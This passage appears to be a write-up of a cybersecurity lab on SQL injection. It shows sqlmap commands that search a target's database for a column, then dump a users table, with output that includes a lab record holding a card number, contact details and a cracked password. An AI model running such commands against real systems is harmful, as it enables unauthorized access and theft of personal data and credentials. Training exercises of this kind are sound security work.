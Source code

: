 This basically means that everything accessible will be retrieved, potentially running for a very long time. We will need to find the data of interest in the output files manually.

## Questions

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250204173240.png)

### First

***

We can do the following command:

```
python3 sqlmap.py -r Case1.txt --threads 10 --search -C style --batch
```

We get the following output:

```
Database: information_schema
Table: ROUTINES
[1 column]
+-----------------+------------+
| Column          | Type       |
+-----------------+------------+
| PARAMETER_STYLE | varchar(8) |
+-----------------+------------+
```

Answer is `PARAMETER_STYLE`

### Second

***

```
python3 sqlmap.py -r Case1.txt --threads 10 --dump -D testdb -T users --batch | grep "Kimberly"
```

We get the following output:

```
| 6  | 5143241665092174 | KimberlyMWright@gmail.com   | 440-232-3739 | Kimberly Wright   | 3136 Ralph Drive       | June 18 1972      | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609)      | Electrologist 
```

Answer is `Enizoom1609`
